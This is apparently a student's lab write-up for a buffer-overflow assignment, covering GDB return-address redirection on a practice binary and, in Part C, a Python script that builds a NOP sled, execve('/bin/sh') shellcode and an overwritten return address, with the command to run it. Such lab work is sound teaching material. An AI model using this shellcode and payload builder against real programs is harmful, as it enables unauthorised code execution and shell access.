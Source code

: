 # Project 9 - Buffer Overflow

## Part A

In order to get to the vulnerable function with GDB, I first ran the program
with `gdb overflow`. After that, I performed the following steps:

  * Set a break point in `main` with `break main`
  * Run the program with `run`
  * Use `disassemble vulnerable` in order to get the address of the
    `vulnerable` function, `0x0000555555555179`
  * Get the address of the saved `rip` (`0x7fffffffddd8`) with `info frame`
  * Set the saved `rip` to the address of `vulnerable` with
    `set {void *}0x7fffffffddd8 = 0x0000555555555179`
  * Run the rest of the program with `continue`

Interestingly, this correctly jumped to the `vulnerable` function, but it would
produce a segmentation fault when it ran `system(IMPORTANT)`. In order to see
if I could find where the problem was, I did the following:

  * Created a seperate version of the code that called `vulnerable`. This code
    ran as expected and opened up a shell, indicating that the
    `system(IMPORTANT)` works correctly when called normally.
  * Ran the modified code with GDB, setting break points and stepping through
    the code one line at a time. This still worked correctly, indicating that
    GDB wasn't interfering with the system call.
  * Ran the original call up until the `system(IMPORTANT)` call, then ran the
    command `call system(IMPORTANT)`. This correctly opened up a shell, which
    would seem to indicate that there isn't a problem with the stack or
    registers, unless I don't understand how the `call` command works.
  * Examined the line of code where it segfaults in `system.c`:
    ```c
    ret = __posix_spawn (&pid, SHELL_PATH, 0, &spawn_attr,
		         (char *const[]){ (char *) SHELL_NAME, // <-- Error indicated here
		          		  (char *) "-c",
		          		  (char *) line, NULL },
		         __environ);
    ```
    Unfortunately, this didn't give me much information, since I'm not as
    familiar with the `glibc` library.

Finally, I decided to try jumping directly to the setup for the
`system(INFORMATION)` call at `0x000055555555518c`, rather than the beginning
of the function. Surprisingly, this worked! I'm not sure why there was a
difference, other than the fact that the setup for the `vulnerable` function or
`puts` may have messed with the stack in some way. This would be an interesting
point of further research.

![A failed attempt at opening a shell](failed-shell.png)

![A successful attempt at opening a shell](successful-shell.png)


## Part B

![Providing input to overflow the buffer and rewrite the return address](successful-input.png)


## Part C

The following code is `makepayload` used in running shellcode with 

```bash
./overflow2 `./makepayload 120`
```

```python
#!/usr/bin/env python3
import sys

#machine code to execve("/bin/sh", NULL, NULL)  from https://www.exploit-db.com/exploits/46907
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"

#the target address we want to jump to (beginning, approximately, of nameBuffer) in LE format
#YOU NEED TO MAKE THIS BE THE ADDRESS OF nameBuffer, approximately
target = b'\x50\xdd\xff\xff\xff\x7f'

#how many bytes we need to include in our payload to get 'target' written over main's saved $RIP
#YOU HAVE TO FIND THE RIGHT OFFSET HERE
stackspot=int(sys.argv[1])

#how big a noop sled we want
#YOU MIGHT NEED TO TWEAK THIS
sledsize = 16
sled = b'\x90'*sledsize

#some ASCII chars to fill out the buffer
stuff = b'A' * (stackspot - len(shellcode) - len(sled))

#  for this attack, the buffer looks like this:
#  noop-sled || shellcode || stuff || target-written-over-saved-eip

payload = sled + shellcode + stuff + target

# write binary string to stdout raw
sys.stdout.buffer.write(payload)
```

![Successful shellcode execution](successful-shellcode.png)


